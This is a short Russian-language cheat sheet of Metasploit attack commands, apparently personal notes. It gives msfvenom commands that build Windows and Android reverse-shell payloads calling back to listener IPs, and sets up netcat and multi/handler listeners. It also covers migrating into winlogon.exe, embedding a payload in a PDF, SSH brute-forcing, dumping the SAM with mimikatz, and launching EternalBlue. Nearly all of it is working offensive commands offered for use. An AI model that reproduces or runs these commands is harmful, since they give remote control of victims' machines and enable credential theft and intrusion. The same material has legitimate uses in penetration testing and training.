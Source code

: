 # MetaSploit

Создаем реверс шелл для виндовс

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


Для брута use auxiliary/scanner/ssh/ssh_login


МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam



eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue
   show payloads
